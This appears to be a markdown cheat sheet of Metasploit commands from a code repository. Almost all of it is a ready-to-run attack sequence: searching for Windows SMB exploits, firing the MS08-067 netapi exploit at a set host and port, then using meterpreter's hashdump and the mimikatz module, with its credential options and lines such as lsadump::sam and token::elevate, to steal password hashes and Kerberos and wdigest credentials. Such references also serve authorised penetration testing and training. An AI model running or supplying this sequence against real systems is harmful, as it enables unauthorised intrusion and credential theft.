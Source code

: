 ## msfconsole (msf | metaspolit)

#### Search

##### Search for SMB Exploits on Windows
`msf > search exploit/windows/smb`

#### Options

##### exploit/windows/smb/ms08_067_netapi Options
`msf exploit(ms08_067_netapi) > show options`

#### Attack

##### Attack SMB for Windows
`msf > use exploit/windows/smb/ms08_067_netapi`

`msf exploit(ms08_067_netapi) > set RHOST 10.37.129.9`

`msf exploit(ms08_067_netapi) > set RPORT 445`

`msf exploit(ms08_067_netapi) > exploit`

#### meterpreter

##### help
`meterpreter > help`

##### hashdump
`meterpreter > hashdump`

#### mimikatz

##### load mimikatz
`meterpreter > load mimikatz`

##### options

Command | Description
--- | ---
kerberos | Attempt to retrieve kerberos creds
livessp | Attempt to retrieve livessp creds
mimikatz_command | Run a custom command
msv | Attempt to retrieve msv creds (hashes)
ssp | Attempt to retrieve ssp creds
tspkg | Attempt to retrieve tspkg creds
wdigest | Attempt to retrieve wdigest creds

##### Extras

`when in meterpreter: ls, pwd, whoami, get system, get admin`

`lsadump::sam, privilege::debug. token::whoami, token::elevate, process::list`
